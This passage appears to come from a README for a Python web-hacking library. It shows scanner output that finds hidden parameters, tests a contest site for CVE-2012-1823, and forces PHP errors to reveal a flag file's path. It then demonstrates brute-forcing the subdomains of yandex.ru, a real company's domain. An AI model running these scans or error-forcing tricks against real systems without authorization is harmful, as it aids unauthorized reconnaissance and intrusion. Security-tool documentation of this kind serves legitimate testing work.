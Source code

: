         ==========
        .Too big base, splitting...
        ...
        ==========
        Found parameters:
        ==========
        Starting dichotomy for POST-params...
        ==========
        .*..*..*.*.*..*..*.*.*.*..*......
        ==========
        Found parameters: limit
        ==========
        Starting dichotomy for COOKIE-params...
        ==========
        .Too big base, splitting...
        ...
        ==========
        Found parameters:
        ==========
        Testing specific PHP issues
        Testing for CVE-2012-1823...
        Not vulnerable
        Testing for common PHP-(Fast)CGI+NginX|IIS|Apache|LightHTTPD|(.*?) configuration vulnerability...
        Not vulnerable
        Trying to get an error sending invalid session id...
        Failed
        Trying to get a max_execution_time error by sending a file with long name...
        It can take time, wait...
        Failed
        Trying to get a type error or a max_execution_time error by exceeding memory_limit...
        Considering max_input_nesting_level = 64...
        It can take time, wait...
        Found server application path: /usr/local/www/ahack.ru/contest/teaser/flag_34_e918__<nope, get the flag yourself :P>__2557.php
        ==========
        38 requests made
    ```
    * Won again (and flag removed again)!
* Now move on to the general web-hacking.
    * Let's find subdomains of yandex.ru. Its DNS uses wildcards, so, we should bypass them. Using the regexp '404' is quite sufficient
    ```python
        from libpywebhack import WebHack

        a = WebHack(host='yandex.ru')
        a.brutesubs(threads=8, ban_regex='404') #ignore all subdomains whose HTTP response contains string '404'
    ```
    * Run, get the subdomains
    ```
        $ python test.py
        ==========
        Searching for the subdomains of yandex.ru
        1904 names loaded. Starting 8 threads
        Found: mail.yandex.ru
        Found: mail2.yandex.ru
        Found: guest.yandex.ru
        Found: help.yandex.ru
        .....................  (output removed, run it yourself :P)
        Found: site.yandex.ru
        Found: warehouse.yandex.ru
        Found: epsilon.yandex.ru
        Found: webmail.yandex.ru
        1000 names proceeded